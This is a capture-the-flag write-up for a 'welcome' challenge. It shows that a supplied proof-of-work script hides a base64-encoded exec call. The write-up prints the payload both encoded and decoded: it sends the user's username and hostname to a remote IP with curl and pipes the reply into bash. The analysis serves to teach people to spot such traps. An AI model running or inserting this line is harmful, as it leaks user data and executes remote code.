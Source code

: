 # welcome

> This year we added a Proof of Work to some of our challenges.

> Just run `python pow.py <target>,` were `target` is the value provided by the server and get the flag.

> [pow](pow-b39e9d8f81a48ac92097ce060d587ace718c2db8bc9b3906ac640b90a62dc497.py)

> `nc welcome.insomnihack.ch 1337`

If we follow the instructions given in the description, we'll get the following response from the server:
```
«Welcome to the wall of shame 2.0!» ~Mallory
```

Let's have a look at the provided script. Once the correct input is computed, it executes some fishy code:

```python
exec(base64.b64decode('Z2xvYmFsIGk7aSs9MTMzNzt4PW9zLm5hbWU7eCs9Ii8kKHdob2FtaSlAJChob3N0bmFtZSl8YmFzaCJpZiB4IT0ibnQiZWxzZSIvJVVTRVJOQU1FJUAlVVNFUkRPTUFJTiUiO29zLnN5c3RlbSgiY3VybCAtTnMgMzQuNjUuMTg3LjE0MS8iK3gp'))
```

Base64 decoded (`;` replaced with newlines for readability):
```python
global i
i+=1337
x=os.name
x+="/$(whoami)@$(hostname)|bash" if x!="nt" else "/%USERNAME%@%USERDOMAIN%"
os.system("curl -Ns 34.65.187.141/"+x)
```

We can see that the code increments variable `i` by `1337` (that's why we get wrong result). It also sends our username and hostname to some remote server and executes some code in bash.

When we remove the suspicious line, everything works as expected and we get a flag.

Flag: `INS{Miss me with that fhisy line}`